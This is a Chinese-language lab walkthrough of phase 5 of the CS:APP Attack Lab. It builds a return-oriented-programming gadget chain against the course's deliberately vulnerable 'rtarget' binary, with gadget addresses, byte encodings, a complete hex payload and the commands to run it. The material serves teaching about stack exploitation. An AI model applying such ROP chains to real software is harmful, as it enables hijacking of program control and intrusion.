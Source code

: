 具体描述一个整个思路(感谢 @yaoxiuh)

1. 拿到 rsp 存着的地址
2. (然后把这个地址) + (cookie 在 stack 偏移量) pop 到某个寄存器中
3. 然后把这个寄存器的值放到 rdi 中
4. 然后调用 touch3
5. cookie 要放到 stack 最后面
6. 字符串最后加上 `\0` 也就是 `00000000` 来标志结束

从第二步到第三步，因为可用的指令的限制，需要借用不同的寄存器来进行转移跳转，最后完成对 `%rdi` 的赋值，具体的步骤（在我的这份代码里）

```
栈顶
mov  %rsp, %rax 48 89 e0 c3    0x401b11
mov  %rax, %rdi 48 89 c7 c3    0x401a2b
pop  %rax       58 c3          0x401a24
constant 0x48
movl %eax, %ecx 89 c1 20 c9 c3 0x401a98 (20 c9 没有影响)
movl %ecx, %edx 89 ca 28 c0 c3 0x401ac8 (38 c0 没有影响)
movl %edx, %esi 89 d6 38 c0 c3 0x401a68 (38 c0 没有影响)
lea  (%rdi, %rsi, 1), %rax     0x401a48
mov  %rax, %rdi 48 89 c7 c3    0x401a2b
touch3 的地址
cookie 的字符串
栈底
```

对应的十六进制代码为（同样需要注意不全十六位的 0，不然会出段错误），这里还有一个需要注意的地方是偏移量，在执行第一句时，`%rsp` 已经是指向下一句了（指向的是当前的栈顶，正在执行的语句是不需要考虑的），所以可以数出来，在 cookie 之前一共有 9 条指令，每个 8 byte，所以一共的偏移量是 `0x48`（十进制的 72）。

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
11 1b 40 00 00 00 00 00
2b 1a 40 00 00 00 00 00
24 1a 40 00 00 00 00 00
48 00 00 00 00 00 00 00
98 1a 40 00 00 00 00 00
c8 1a 40 00 00 00 00 00
68 1a 40 00 00 00 00 00
48 1a 40 00 00 00 00 00
2b 1a 40 00 00 00 00 00
6e 19 40 00 00 00 00 00
34 35 33 37 34 66 65 65
00 00 00 00 00 00 00 00
```

然后转换成机器码 `./hex2raw < p5.txt > p5r.txt`，再执行一次 `./rtarget -i p5r.txt`，就可以看到结果了：

![](/images/14554895097953.jpg)
